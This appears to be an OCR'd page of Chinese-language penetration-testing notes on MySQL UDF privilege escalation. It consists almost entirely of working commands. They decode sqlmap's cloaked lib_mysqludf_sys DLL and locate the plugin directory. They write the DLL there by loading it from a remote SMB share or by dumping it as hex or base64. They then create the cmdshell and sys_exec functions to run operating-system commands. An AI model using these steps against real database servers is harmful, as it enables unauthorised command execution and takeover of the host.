 	Udf: sqlmap-master\udf\mysql\windows\
	>python sqlmap/extra/cloak/cloak.py lib_mysqludf_sys.dll _ 
	Mysql>5.1 udf.dll放置在lib\plugin 
	Mysql<5.1 udf.dll放置在c:\windows\system32
	#show variables like '%compile%'; 查看系统版本
	#select @@plugin_dir 查看插件目录
	放入udf
	#select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll"; 
	或将udf十六进制编码后写入
	#select hex(load_file('udf_sys_64.dll')) into dumpfile '/tmp/udf.hex'; 
	#select 0x4d5a90000300000004000000ffff0000b80000000000000040000000000000000000000000000000000000… into dump file "D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll";
	或将udf base64编码后写入(MySQL 5.6.1和MariaDB 10.0.5)
	#select to_base64(load_file('/usr/udf.dll')) into dumpfile '/tmp/udf.b64';
	#select from_base64(“xxxxx”) into dumpfile "D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll";
	或创建表拼接十六进制编码
	#create table temp(data longblob); 
	#insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d); 
	#update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b3); 
	#select data from temp into dump file "D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll";
	或#insert into temp(data) values(hex(load_file('D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll')));
	#SELECT unhex(cmd) FROM mysql.temp INTO DUMPFILE 'D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll ';
	或使用快速导入数据
	#load data infile '\\\\192.168.0.19\\network\\udf.hex'
	#into table temp fields terminated by '@OsandaMalith' lines terminated by '@OsandaMalith' (data); 
	#select unhex(data) from temp into dumpfile 'D:\\MySQL\\mysql-5.7.2\\lib\\plugin\\udf.dll';
	创建函数
	#create function cmdshell returns string soname 'udf.dll';
	#create function sys_exec returns int soname 'udf.dll';
	执行命令
	#select cmdshell('whoami'); 
	#select sys_exec(''whoami''); 
	删除函数
	#drop function cmdshell;
	#drop function sys_exec;
